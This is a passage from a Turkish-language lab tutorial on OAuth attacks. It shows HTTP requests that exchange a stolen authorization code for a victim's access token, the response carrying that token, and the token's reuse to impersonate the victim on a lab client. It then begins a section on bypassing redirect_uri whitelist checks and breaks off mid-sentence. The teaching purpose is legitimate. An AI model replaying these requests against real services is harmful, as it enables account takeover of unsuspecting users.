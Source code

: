 Artık saldırgan kurbanın authorization code'unu bildiğine göre, geriye kalan tek şey OAuth akışını tamamlamak ve authorization token'ı kurbanın kimliğine bürünmek için geçerli bir access token ile takas etmektir. Saldırgan, gerekli tüm parametreler bilindiği için access token talebini taklit ederek bunu kolayca başarabilir:

```http
GET /client/callback?code=Z0FBQUFBQm1BeHdCNEZEQVdxMFR0Tl9aSEg0SThQME9SU2s2V3Y3VE9teTM2V0JLcDRTM0Jwc0NBMG9Oc09vNGlqWjNZMDFVcGlsT3ZnWmdmRzJ3Q0wtdGtSbWNqXzBHY0o4RzBtMzlKN2h3WFlNcjltc2drNkNFUlAzcnJzUTd6SnVFbTJCWmZ6WDYtVm13V1pQRW5kMlBqcWRnQkVReUZRPT0&state=somevalue HTTP/1.1
Host: hubgit.htb
Cookie: state=somevalue
```

Geriye kalan OAuth akışı client ve authorization server tarafından arka planda tamamlanır. Kurbanın access token'ı response'da döndürülür:

```http
HTTP/1.1 302 FOUND
Date: Tue, 26 Mar 2024 19:13:40 GMT
Server: Werkzeug/3.0.1 Python/3.11.2
Content-Type: text/html; charset=utf-8
Content-Length: 203
Location: /client/
Set-Cookie: access_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imh0Yi1zdGRudCIsImlzcyI6Imh1YmdpdC5odGIiLCJleHAiOjE3MTE0ODQwMjAuODQ2MDAxNn0.5nx4KAunXKVHoz6udsLdho5X0tQ_p03AbjListGoPgQ01uaX_RFkH1rnvOTwe1-NwH8US7slHQUnSsR5-BEFY2EfR7K_mx-9eL7kaxFJ97NXmVSG_bSzsPzjMUTjrpUbfbTSjqQTM5srpUHC811bDSYWduRV4YI0Fso_EsAz4jMUm7ka_sMWMqcc7hkFev3MjmPzQOBkbt3jtJ8DJPkYxFW_6aXdF-1sf8aejbkWO4tJecqG55rHgUvPfDMpTiRLP07jB26odIoBgu01z3Ybfz8y_IQC_0VTU9kEITThdvayaHeyqp-NqHfETlFSiDH__hoePFS_xhw-jP3QIbRVDg; Path=/
```

![Pasted image 20241218013642.png](/img/user/resimler/Pasted%20image%2020241218013642.png)

Saldırgan artık kurban için geçerli bir access token'a sahip olduğundan, bunu kurbanın kimliğine bürünmek için kullanabilir ve academy.htb client'ını kurban olarak kullanabilir:

```http
GET /client/ HTTP/1.1
Host: academy.htb
Cookie:  access_token=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imh0Yi1zdGRudCIsImlzcyI6Imh1YmdpdC5odGIiLCJleHAiOjE3MTE0ODQwMjAuODQ2MDAxNn0.5nx4KAunXKVHoz6udsLdho5X0tQ_p03AbjListGoPgQ01uaX_RFkH1rnvOTwe1-NwH8US7slHQUnSsR5-BEFY2EfR7K_mx-9eL7kaxFJ97NXmVSG_bSzsPzjMUTjrpUbfbTSjqQTM5srpUHC811bDSYWduRV4YI0Fso_EsAz4jMUm7ka_sMWMqcc7hkFev3MjmPzQOBkbt3jtJ8DJPkYxFW_6aXdF-1sf8aejbkWO4tJecqG55rHgUvPfDMpTiRLP07jB26odIoBgu01z3Ybfz8y_IQC_0VTU9kEITThdvayaHeyqp-NqHfETlFSiDH__hoePFS_xhw-jP3QIbRVDg
```

Bu request'e verilen response , mağdurun hesap bilgilerini içerir:

![Pasted image 20241218013828.png](/img/user/resimler/Pasted%20image%2020241218013828.png)


### Kusurlu Doğrulamayı Atlama

OAuth'un birçok gerçek dünya uygulamasında redirect_uri doğrulanır. Bu doğrulama genellikle herhangi bir dış URL'nin gönderilmesini önlemek için bir whitelist kullanılarak uygulanır. Ancak, URL doğrulamasının nasıl uygulandığına bağlı olarak, bypass potansiyeli olabilir. Manipüle edilen URL muhtemelen aşağıdakine benzer bir hatayla sonuçlanacağından, bir doğrulama kolayca tespit edilebilir:
